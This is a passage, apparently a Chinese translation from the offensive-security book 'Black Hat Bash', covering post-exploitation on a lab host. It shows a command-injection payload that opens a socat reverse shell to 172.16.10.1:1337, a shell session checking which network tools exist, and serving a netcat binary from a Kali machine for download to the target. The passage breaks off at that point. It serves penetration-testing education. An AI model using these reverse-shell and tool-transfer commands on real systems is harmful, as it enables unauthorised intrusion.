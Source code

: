 file: 参数使用 $(tty) 命令的值，扩展为 /dev/pts/#。原始模式（raw）确保 socat 不会处理输入和输出数据，echo=0 禁用 socat 的本地回显，tcp-listen:1337 定义本地 TCP 监听端口。

接下来，通过在*p-web-02*（172.16.10.12）上利用操作系统命令注入漏洞，执行以下命令。请注意使用管道符触发注入漏洞：

```
| **socat exec:'bash -li',pty,stderr tcp:172.16.10.1:1337**
```

在此示例中，我们使用 exec 参数“bash -li”调用 socat，这将以交互方式执行 bash，就像它被作为登录 shell 调用一样。我们还传递了 pty,stderr 来生成伪终端并捕获标准错误流，后跟 tcp:172.16.10.1:1337 来设置使用 TCP 的连接地址。

## 后期利用二进制文件部署

让我们讨论几种不需要 root 权限即可从受限 shell 环境升级的方法。在本节中，我们假设未能仅使用 bash 通过 */dev/tcp* 特殊伪设备文件建立反向 shell 连接到*p-web-02*。

即使 *www-data* 用户缺乏权限并且无法在服务器上安装软件，我们也可以仅使用 bash 执行许多攻击。然而，缺少某些核心二进制文件，尤其是那些用于网络的二进制文件，会使我们的黑客工作变得特别困难。

正如我们在表 7-1 中提到的，*p-web-02* 没有 wget 二进制文件来从远程服务器下载文件。让我们尝试执行一些其他常见的网络工具命令，看看它们是否存在：

```
www-data@p-web-02:/var/www/html$ **ssh**
bash: ssh: command not found
www-data@p-web-02:/var/www/html$ **nc**
bash: ssh: command not found
www-data@p-web-02:/var/www/html$ **socat**
bash: socat: command not found
www-data@p-web-02:/var/www/html$ **python --version**
bash: python: command not found
www-data@p-web-02:/var/www/html$ **curl**
curl: try 'curl --help' or 'curl --manual' for more information 
```

哇，这台主机确实无法建立出站连接。我们有 curl，但是无法使用 curl 直接建立反向 shell 连接。

在这种情况下，下载一个 Netcat 二进制文件到目标服务器会非常有用。通过利用如代码执行等应用程序漏洞，我们可以潜在地安装这样的网络工具，并使用它建立升级版的反向 shell 连接。

本节中，我们涵盖了可以用来将网络二进制文件拉入目标环境并执行它们的有用命令。请注意，我们将使用与*p-web-02*的反向 shell 连接在这里稍微作弊一下，但以下技术完全可以利用我们发现的操作系统命令注入漏洞来执行。我们将在几个示例中展示它的使用。

### 提供 Netcat 服务

在 Kali 机器中，导航到您要传输的有效载荷的目录，然后输入以下 Python 命令来启动 HTTP 服务器：

```
$ **cd Black-Hat-Bash/ch07**
$ **python -m http.server** 
```

在*p-web-02*（172.16.10.12）上，您现在应该能够通过 Python HTTP 服务器访问 Kali 机器的文件系统，并使用 curl 执行下载命令。将 Kali nc 二进制文件的副本放入与 HTTP 服务器相同的目录中：

```
$ **which nc**
/usr/bin/nc

$ **cp /usr/bin/nc ~/Black-Hat-Bash/ch07** 
```

